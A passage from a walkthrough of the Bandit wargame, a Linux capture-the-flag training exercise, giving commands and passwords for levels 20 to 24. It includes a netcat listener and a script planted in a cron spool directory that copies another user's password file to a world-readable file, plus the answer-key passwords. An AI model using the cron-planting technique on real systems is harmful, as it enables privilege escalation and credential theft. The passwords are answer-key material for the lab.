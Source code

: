 ### **Solution:**  
1. Set up a listener in one terminal:  
   ```sh
   echo "VxCazJaVykI6W36BkBU0mJTCM8rR95XT" | nc -lvnp 1234
   ```
2. Run the binary in another:  
   ```sh
   ./suconnect 1234
   ```
**Password:** `NvEJF7oVjkddltPSrdKEFOllh9V1IBcq`  

---

## **Level 21 → Level 22**  
**Goal:** Analyze a cron job.  

### **Solution:**  
Check `/etc/cron.d/` and read the script.  
```sh
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**Password:** `WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff`  

---

## **Level 22 → Level 23**  
**Goal:** Understand cron job hashing.  

### **Solution:**  
Replicate the script’s logic.  
```sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
**Password:** `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`  

---

## **Level 23 → Level 24**  
**Goal:** Exploit a cron job running every minute.  

### **Solution:**  
1. Create a script in `/var/spool/bandit24/`:  
   ```sh
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/bandit24pass
   chmod 666 /tmp/bandit24pass
   ```
2. Wait for the cron job to execute.  
```sh
cat /tmp/bandit24pass
```
**Password:** `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`  

---